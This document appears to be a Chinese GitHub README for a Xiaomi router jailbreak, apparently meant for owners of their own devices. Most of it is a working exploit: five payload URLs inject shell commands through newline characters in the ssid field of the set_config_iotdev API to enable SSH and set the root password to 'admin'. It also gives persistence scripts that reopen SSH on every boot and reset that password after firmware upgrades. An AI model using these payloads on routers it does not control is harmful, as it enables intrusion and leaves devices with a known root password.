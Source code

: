 ## 用法
1. 确保路由器版本为 1.1.60 或以下。
2. 登录获取`TOKEN`.
3. 编辑`payload url`并执行.
4. SSH已启用. 登录用户名为 `root` 密码为 `admin`.

## Payload Url
```
http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0anvram%20set%20ssh_en=1%0anvram%20commit%0a

http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0aecho%20sed%20-i%20's/channel=.*/channel="debug"/g'%20/etc/init.d/dropbear%20>%20/tmp/r.sh%0ash%20/tmp/r.sh%0arm%20/tmp/r.sh%0a

http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0a/etc/init.d/dropbear%20start%0a

http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0a/etc/init.d/dropbear%20enable%0a

http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0aecho%20echo%20-e%20"admin\nadmin"%20|%20passwd%20root%20>%20/tmp/pass.sh%0ash%20/tmp/pass.sh%0arm%20/tmp/pass.sh%0a
```

## 固化SSH
1. 在 /etc/firewall.user 文件中，添加一句 source /etc/basic_settings/basefile.sh
```
echo -e "\nsource /etc/basic_settings/basefile.sh" >> /etc/firewall.user
```
2. 创建 basic_settings 文件夹、basefile.sh 文件、my_script.sh 文件
```
mkdir /etc/basic_settings
touch /etc/basic_settings/basefile.sh
touch /etc/basic_settings/my_script.sh
chmod 755 /etc/basic_settings/basefile.sh
chmod 755 /etc/basic_settings/my_script.sh
```
3. 编辑 /etc/basic_settings/basefile.sh 填写以下内容
```
#!/bin/sh
echo "source /etc/basic_settings/my_script.sh; exit 0" > /etc/rc.local
```
4. 编辑 /etc/basic_settings/my_script.sh 填写以下内容
```
#!/bin/sh

#check ssh 
ver_flag="$(uci -c /usr/share/xiaoqiang get xiaoqiang_version.version.CHANNEL)"
if [ "$(nvram get ssh_en)" != "1" -o "$ver_flag" == "release" ]; then
    echo "$(date) : 本次开机ssh_en被关闭或者版本标记被重置，您可能进行了固件升级。" >> /tmp/my_log.txt 
    nvram set ssh_en=1
    nvram commit
    uci -c /usr/share/xiaoqiang set xiaoqiang_version.version.CHANNEL='stable'
    uci -c /usr/share/xiaoqiang commit xiaoqiang_version.version
    echo "$(date) :已重新开启ssh_en，并设置版本标记为stable。" >> /tmp/my_log.txt 
    /etc/init.d/dropbear enabled
    if [ $? == "1" ]; then
        echo "$(date) :dropbear开机自启动被关闭，现重新开启。" >> /tmp/my_log.txt 
        /etc/init.d/dropbear enable
    fi
    /etc/init.d/dropbear restart
    echo -e "admin\nadmin" | passwd root
    echo "$(date) :已将root密码重置为 admin" >> /tmp/my_log.txt 
fi
```
注：版本标记设置为 stable，路由器就会认为是 开发版。release -> 稳定版、current -> 内测版。

## 参考链接
* [解锁京东云 Redmi AX5 ssh](https://m1ku.in/archives/783)
* [关于小米路由器升级系统保留SSH的简单方法](https://www.right.com.cn/forum/thread-8140395-1-1.html)
